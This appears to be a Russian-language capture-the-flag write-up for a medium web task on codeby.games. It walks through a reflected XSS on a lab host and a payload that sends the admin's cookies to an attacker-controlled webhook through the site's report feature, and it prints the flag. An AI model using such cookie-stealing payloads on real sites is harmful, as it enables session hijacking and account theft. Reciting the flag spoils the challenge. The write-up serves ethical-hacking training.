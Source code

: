 # Врайт-ап задания "Клиент всегда прав" с платформы codeby.games

![Untitled](content/Untitled0.png)

Задание “Клиент всегда прав” имеет сложность “Средний” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16013)** и видим страницу с публикациями и поиском по ним

![Untitled](content/Untitled1.png)

Мы можем попробовать проэксплуатировать базовую XSS уязвимость вида 

```jsx
<script>alert(1)</script>
```

![Untitled](content/Untitled2.png)

Но в данном случае толку от не не будет, потому что она никак не взаимодействует с админом.

Нас больше интересует кнопка Report напротив каждой публикации. Попробуем перейти по ней и посмотреть на url страницы

![Untitled](content/Untitled3.png)

Отсюда мы можем увидеть что репорт отправляется непосредственно админу

---

Напишем пейлоад который вставим после функции репорта

```jsx
search=<script>document.location='http://{наш сервер}//?c='%252bencodeURIComponent(document.cookie)</script>
```

Теперь надо объяснить, что делает каждый из параметров в пейлоаде

- c= - параметр который будет использоваться для передачи куков
- %252bencodeURIComponent(document.cookie) - функция которая будет кодировать куки и передавать их в параметр c=

В моем случае я буду использовать webhook, тк burp работает у меня через раз

![Untitled](content/Untitled4.png)

берем наш webhook с сайта [webhook.site](http://webhook.site) и добавляем в наш пейлоад. Тогда итоговая ссылка, которую нам надо будет ввести в поисковую строку будет выглядеть следующим образом

```jsx
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='http://{webhook_url}//?c='%252bencodeURIComponent(document.cookie)</script>
```

После перехода по этой ссылке сайт с вебхуком будет выглядеть следующим образом

![Untitled](content/Untitled5.png)

Наш флаг будет: CODEBY{r3fl3cted_XSS_expl0it3d}

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"